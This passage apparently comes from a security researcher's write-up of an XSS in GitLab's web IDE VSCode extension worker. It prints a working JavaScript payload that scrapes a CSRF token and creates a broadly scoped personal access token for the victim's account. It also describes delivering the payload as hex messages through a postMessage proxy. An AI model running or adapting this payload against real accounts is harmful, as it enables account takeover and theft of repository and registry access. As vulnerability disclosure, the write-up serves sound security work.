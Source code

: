 Which is from the following script

````js
(function anonymous(module,exports,require
) {
console.dir("XSS in " + origin)
globalThis.fetch = WorkerGlobalScope.prototype.fetch.bind(globalThis) // restore original fetch

async function exploit() {
    const page_resp = await fetch("https://gitlab.com/-/user_settings/personal_access_tokens")
    const text = await page_resp.text()
    const csrf_token = text.match(/<meta name="csrf-token" content=".*?"/g)[0].split('"')[3]
    console.dir("Got csrf token: " + csrf_token)
    const token_resp = await fetch("https://gitlab.com/-/user_settings/personal_access_tokens", {
        method: "post",
        headers: {
            "X-Csrf-Token": csrf_token,
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: "personal_access_token%5Bname%5D=malicious%20token&personal_access_token%5Bexpires_at%5D=2025-05-04&personal_access_token%5Bscopes%5D%5B%5D=api&personal_access_token%5Bscopes%5D%5B%5D=read_api&personal_access_token%5Bscopes%5D%5B%5D=read_user&personal_access_token%5Bscopes%5D%5B%5D=create_runner&personal_access_token%5Bscopes%5D%5B%5D=k8s_proxy&personal_access_token%5Bscopes%5D%5B%5D=read_repository&personal_access_token%5Bscopes%5D%5B%5D=write_repository&personal_access_token%5Bscopes%5D%5B%5D=read_registry&personal_access_token%5Bscopes%5D%5B%5D=write_registry&personal_access_token%5Bscopes%5D%5B%5D=ai_features"
    })
    const token = (await token_resp.json()).new_token
    console.dir("Got token: " + token)
}

exploit()
//# sourceURL=https://gitlab.com/assets/webpack/gitlab-VSCode/0.0.1-dev-20240501001436/VSCode/extensions/gitlab-web-ide/main.js#VSCode-extension
})
````

This xss executes in the context of web worker which is different as you don't have access to dom and other things. Still you can make use of things like fetch and read any sensitive data you want because the origin is same.

The above script comes from this file: <https://peo.si/gl/editor/include.js> but you might wonder where did it get loaded from, let's look into the *send_hex.txt* data there are over 798 lines of hex data each one is individual and needs to be send as alone (one by one through the message port).

All these hex data are being transmitted to the worker script via the proxy *postMessage* handler which I talked earlier about. Matan also has placed additional utilities to decode/encode the hex data.

VSCode extension worker expects data in buffer format sending raw buffer can be tricky that's why it's stored in hex.

Comment out this line in the poc to see the decoded version of the data which we are sending:

````js
            // console.log("%csent: " + decode(rawmsg), "color: gray")
````
